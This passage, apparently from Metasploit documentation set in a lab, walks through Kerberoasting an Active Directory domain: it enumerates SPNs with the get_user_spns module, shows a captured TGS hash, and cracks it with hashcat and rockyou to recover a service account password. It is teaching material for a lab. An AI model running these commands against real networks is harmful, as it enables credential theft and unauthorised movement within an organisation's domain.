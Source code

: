 The easiest way to enumerate Kerberoastable accounts is with the `auxiliary/gather/get_user_spns` module which internally leverages Impacket.
This module will automatically query LDAP for Kerberoastable SPNs and request a Kerberos service ticket that may be encrypted using the weak password
which can be bruteforced:

```
use auxiliary/gather/get_user_spns
run rhost=192.168.123.13 user=<username> pass=<password> domain=<domain>
```

If you followed the lab setup setup above, this should output the following result:

```
msf6 auxiliary(gather/get_user_spns) > run rhost=192.168.123.13 user=Administrator pass=p4$$w0rd domain=adf3.local

[*] Running for 192.168.123.13...
[+] ServicePrincipalName                    Name                MemberOf  PasswordLastSet             LastLogon  Delegation
[+] --------------------------------------  ------------------  --------  --------------------------  ---------  ----------
[+] DC3/svc_kerberoastable.ADF3.LOCAL:1337  svc_kerberoastable            2023-01-23 23:52:19.445592  <never>
[+] $krb5tgs$23$*svc_kerberoastable$ADF3.LOCAL$adf3.local/svc_kerberoastable*$c2e73c1dcdcef4c926cb263abedf75ed$263fea3ad446bd6b4b8... etc etc ...
```

The final line contains the service ticket hash in a crackable format. Next paste this hash `$krb5tgs$23$*svc_kerberoastable$ADF3.LOCAL$adf3.local/svc_kerberoastable*$c2e73c1..etc etc...` into a new file called `hash.txt`
You can run Hashcat to crack the hash with a wordlist of choice, and see if the status of the hash has been marked as cracked:

```
$ hashcat -m 13100 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt
... etc ...
Session..........: hashcat
Status...........: Cracked
... etc ...
```

If the password has been cracked you can view the result at a later date with the above command and `--show` appended:

```
$ hashcat -m 13100 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt --show
$krb5tgs$23$*svc_kerberoastable$ADF3.LOCAL$adf3.local/svc_kerberoastable*$c2e73c1dcdcef4c926cb...etc etc...:password123
                                                                                                         ^ cracked password
```

Now that you have access to the password of the service account, you can use this to enumerate further in the AD environment.

### Manual workflow
